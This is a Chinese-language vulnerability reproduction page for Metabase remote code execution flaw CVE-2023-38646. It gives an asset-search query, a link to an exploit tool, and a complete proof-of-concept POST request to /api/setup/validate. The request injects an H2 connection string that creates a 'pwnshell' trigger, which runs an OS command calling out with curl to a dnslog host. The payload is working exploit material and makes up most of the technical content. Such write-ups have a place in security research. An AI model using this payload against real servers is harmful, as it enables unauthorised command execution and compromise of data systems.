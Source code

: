 # 0x01 工具介绍

CVE-2023-38646漏洞是一种高危的Metabase远程代码执行漏洞。Metabase是一个开源的数据分析和可视化工具，可以帮助用户连接到各种数据源，并进行数据查询、分析和可视化。



# 工具链接

`https://github.com/robotmikhro/CVE-2023-38646`





**漏洞描述**

Metabase是一个开源的数据分析和可视化工具，它可以帮助用户轻松连接到各种数据源，包括数据库、云服务和API，然后使用绘图的界面进行数据查询、分析和可视化。需身份认证的远程攻击者利用该漏洞可以在服务器上以运行元数据库服务器的权限执行任意命令

**漏洞影响**

元数据库  

**网络测绘**

应用程序=“元数据库”  

**漏洞复现**

登录页面

![image-20230815141819803](./Metabase远程代码执行漏洞.assets/image-20230815141819803.png)

POC

/api/session/properties

![image-20230815141836777](./Metabase远程代码执行漏洞.assets/image-20230815141836777.png)

```
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![image-20230815141848432](./Metabase远程代码执行漏洞.assets/image-20230815141848432.png)
